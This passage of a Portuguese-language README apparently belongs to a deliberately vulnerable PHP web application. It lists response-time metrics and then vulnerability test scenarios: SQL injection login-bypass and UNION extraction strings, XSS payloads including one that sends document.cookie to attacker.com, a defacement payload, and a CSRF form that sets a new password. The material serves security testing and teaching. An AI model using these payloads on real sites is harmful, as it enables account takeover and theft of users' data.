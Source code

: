 ## 📊 Métricas e Performance

### Tempos de Resposta Típicos
- **Login:** ~200ms
- **Dashboard:** ~350ms (com modais)
- **Consultas DB:** ~50-100ms

### Otimizações Implementadas
- CSS minificado em arquivos separados
- Lazy loading de modais
- Consultas otimizadas com LIMIT/TOP

## 🧪 Cenários de Teste

### Testes de Vulnerabilidade

#### SQL Injection
```sql
-- Teste 1: Login bypass
Username: admin' OR '1'='1' --
Password: [qualquer]

-- Teste 2: Data extraction
Username: admin' UNION SELECT password FROM users --
```

#### XSS Testing
```html
<!-- Teste 1: Alert básico -->
<script>alert('XSS Test')</script>

<!-- Teste 2: Cookie stealing -->
<script>document.location='http://attacker.com/'+document.cookie</script>

<!-- Teste 3: DOM manipulation -->
<img src=x onerror="document.body.innerHTML='HACKED'">
```

#### CSRF Testing
```html
<!-- Formulário malicioso externo -->
<form action="http://target/dashboard.php" method="POST">
    <input type="hidden" name="action" value="update_profile">
    <input type="hidden" name="new_password" value="hacked123">
</form>
```

### Testes de Funcionalidade

#### Cenário 1: Fluxo Completo de Usuário
1. Acessar página inicial
2. Registrar novo usuário
3. Fazer login
4. Navegar pelo dashboard
5. Adicionar comentário
6. Visualizar estatísticas
7. Logout
